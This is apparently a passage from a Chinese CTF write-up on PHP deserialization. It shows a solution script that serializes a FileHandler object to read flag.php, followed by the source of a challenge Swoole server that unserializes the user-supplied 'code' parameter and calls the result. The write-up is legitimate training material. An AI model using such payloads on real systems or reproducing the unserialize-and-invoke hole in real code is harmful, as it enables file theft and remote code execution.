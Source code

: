 

解决：

```php
#!/usr/bin/php
<?php

    class FileHandler{
    	public $op=" 2";
    	public $filename="flag.php";
    	public $content="js";
    
}
	
	$flag = new FileHandler();
    echo serialize($flag);
    
?>
```



### 4

题目：

```php
#!/usr/bin/env php
<?php
Swoole\Runtime::enableCoroutine($flags = SWOOLE_HOOK_ALL);
$http = new Swoole\Http\Server("0.0.0.0", 80);
$http->on("request",
    function (Swoole\Http\Request $request, Swoole\Http\Response $response) {
        Swoole\Runtime::enableCoroutine();
        $response->header('Content-Type', 'text/plain');

        if (isset($request->get['phpinfo'])) {
            return $response->sendfile('phpinfo.txt');
        }
        
        if (isset($request->get['code'])) {
            try {
                $code = $request->get['code'];
                if (!preg_match('/\x00/', $code)) {
                    $a = unserialize($code);
                    $a();
                    $a = null;
                }
            } catch (\Throwable $e) {
                var_dump($code);
                var_dump($e->getMessage());
                // do nothing
            }
            return $response->end('Done');
        }
        
        $response->sendfile(__FILE__);
    }
);
$http->start();
```

